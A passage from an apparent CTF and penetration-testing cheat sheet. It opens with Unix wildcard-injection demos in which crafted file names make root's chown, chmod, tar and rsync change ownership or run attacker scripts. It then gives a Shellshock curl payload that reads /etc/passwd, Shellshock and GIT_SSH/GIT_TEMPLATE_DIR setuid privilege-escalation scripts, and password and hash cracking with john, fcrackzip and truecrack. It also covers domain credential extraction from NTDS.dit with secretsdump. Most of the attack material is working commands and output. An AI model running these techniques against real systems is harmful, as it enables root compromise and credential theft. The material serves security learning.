  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt


.. _tips-and-tricks:

Tips and Tricks
===============

FTP Services
------------

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

wgetrc Commands
^^^^^^^^^^^^^^^

::

 output_document = file -- Set the output filename—the same as ‘-O file’.
 post_data = string -- Use POST as the method for all HTTP requests and send string in the request body. The same as ‘--post-data=string’.
 post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.

SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* Check the scroll button! Sometimes, there are too many lines and something hidden in the end of the webpage!
* Check for any long file names such admin_5f4dcc3b5aa765d61d8327deb882cf99.txt; Such long names can be base64-encoded, hex, md5 etc.
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.
* If there's a page where redirect is happening (for example, http://example.com or http://example.com/support.php redirects us to http://example.com/login.php) However, the response size for example.com or support.php is a bit off, especially considering the page gives a 302 redirect. We may use No-redirect extension from firefox and view the page. We may also utilize curl/ burp to view the response.
* `List of HTTP Headers <https://en.wikipedia.org/wiki/List_of_HTTP_header_fields>`_ : Quite important when you want to set headers/ cookies etc.
* Watch for places where the site redirects you (it adds something to the URL and displays the homepage). If you see that happen, try adjusting the URL manually. for example: 
  when browsing 

 ::

   http://IPAddress/SitePages/

 it redirects to 

 :: 

  http://IPAddress/_layouts/15/start.aspx#/SitePages/Forms/AllPages.aspx

 we may find something by adjusting the URL manually to 

 ::

  http://IPAddress/SitePages/Forms/AllPages.aspx

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information store.d

PHP
^^^

* PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ 

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Sudoers file
------------

If the sudoers file contains: 
	
:: 

  secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

Docker Security
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_


Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

keepass2john
^^^^^^^^^^^^

::

 keepass2john user.kdbx 
 user:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

::

 john --wordlist wordlist --format=keepass hashfile

There are other \*2john thingy

::

 dmg2john
 gpg2john
 hccap2john
 keepass2john
 keychain2john
 keyring2john
 keystore2john
 kwallet2john
 luks2john
 pfx2john
 putty2john
 pwsafe2john
 racf2john
 rar2john
 ssh2john
 truecrypt_volume2john
 uaf2john
 wpapcap2john
 zip2john


Encrypted Files
---------------

Many times during the challenges, we do find encrypted files encrypted by Symmetric key encryption or RSA Public-Private Key encryption

Symmetric Key
^^^^^^^^^^^^^

If we have the encrypted file and the key to it. However, we don't know the encryption scheme such as aes-128-cbc, des-cbc.

We can use the code written by superkojiman in `De-ICE Hacking Challenge Part-1 <https://blog.techorganic.com/2011/07/19/de-ice-hacking-challenge-part-1/>`_ , it would tell you what encryption scheme is used and then we can run the command to retrieve the plaintext.

::

 ciphers=`openssl list-cipher-commands`
 for i in $ciphers; do
  openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> > /dev/null 2>&1
  if [[ $? -eq 0 ]]; then
   echo "Cipher is $i: openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> -out foo.txt"
   exit
  fi
 done

RSA Public-Private Key encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have found a weak RSA public, we can use `RsaCtfTool <https://github.com/Ganapati/RsaCtfTool>`_ uncipher data from weak public key and try to recover private key and then use 

::

 openssl rsautl -decrypt -inkey privatekey.pem -in <encryptedfile> -out key.bin 

The ciphertext should be in binary format for RsaCtfTool to work. If you have your ciphertext in hex, for example

::

 5e14f2c53cbc04b82a35414dc670a8a474ee0021349f280bfef215e23d40601a

Convert it in to binary using

::

 xxd -r -p ciphertext > ciphertext3


RSA given q, p and e?
^^^^^^^^^^^^^^^^^^^^^

Taken from `RSA Given q,p and e <https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e>`_

::

 def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

 def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

 if __name__ == "__main__":
    main()


SECCURE Elliptic Curve Crypto Utility for Reliable Encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If you see, something like this

::

 '\x00\x146\x17\xe9\xc1\x1a\x7fkX\xec\xa0n,h\xb4\xd0\x98\xeaO[\xf8\xfa\x85\xaa\xb37!\xf0j\x0e\xd4\xd0\x8b\xfe}\x8a\xd2+\xf2\xceu\x07\x90K2E\x12\x1d\xf1\xd8\x8f\xc6\x91\t<w\x99\x1b9\x98'

it's probably `SECCURE Elliptic Curve Crypto Utility for Reliable Encryption <http://point-at-infinity.org/seccure/>`_ Utilize python module `seccure <https://pypi.python.org/pypi/seccure>`_ to get the plaintext. 


Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>

Windows
-------

Get-ChildItem Mode Values
^^^^^^^^^^^^^^^^^^^^^^^^^

'Mode' values returned by PowerShell's Get-ChildItem cmdlet?

::

 PS> gci|select mode,attributes -u

 Mode                Attributes
 ----                ----------
 d-----               Directory
 d-r---     ReadOnly, Directory
 d----l Directory, ReparsePoint
 -a----                 Archive

In any case, the full list is:

::

 d - Directory
 a - Archive
 r - Read-only
 h - Hidden
 s - System
 l - Reparse point, symlink, etc.

Zip or unzip using ONLY Windows' built-in capabilities? 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Powershell way

::

 Add-Type -A System.IO.Compression.FileSystem
 [IO.Compression.ZipFile]::CreateFromDirectory('foo', 'foo.zip')
 [IO.Compression.ZipFile]::ExtractToDirectory('foo.zip', 'bar')

Alternate Data Stream
^^^^^^^^^^^^^^^^^^^^^
Sometimes, `Alternate Data Stream <https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/>`_ can be used to hide data in streams.

The output shows not only the name of the ADS and its size, but also the unnamed data stream and its size is also listed (shown as :$DATA).

Powershell-Way

::

 PS > Get-Item -Path C:\Users\Administrator\example.zip -stream *

 Filename: C:\Users\Administrator\example.zip

 Stream             Length
 ------             -------
 :$DATA             8
 pass.txt           4

Now, we know the name of the ADS, We can use the Get-Content cmdlet to query its contents.

::

 Get-Content -Path C:\Users\Administrator\example.zip -Stream pass.txt
 The password is Passw0rd!

Check a directory for ADS?

::

 gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'

DIR Way

Current directory ADS Streams

::

 dir /r | find ":$DATA"

Sub-directories too

::

 dir   /s /r | find ":$DATA"

Reading the hidden stream

::

 more < testfile.txt:hidden_stream::$DATA

NTDS.dit and SYSTEM hive
^^^^^^^^^^^^^^^^^^^^^^^^^

If you have found files such as 

::

 192.168.110.133_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
 192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

Probably, there are dump of domain controller NTDS.dit file, from which passwords can be extracted. Utilize,

::

 python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL



Others
------
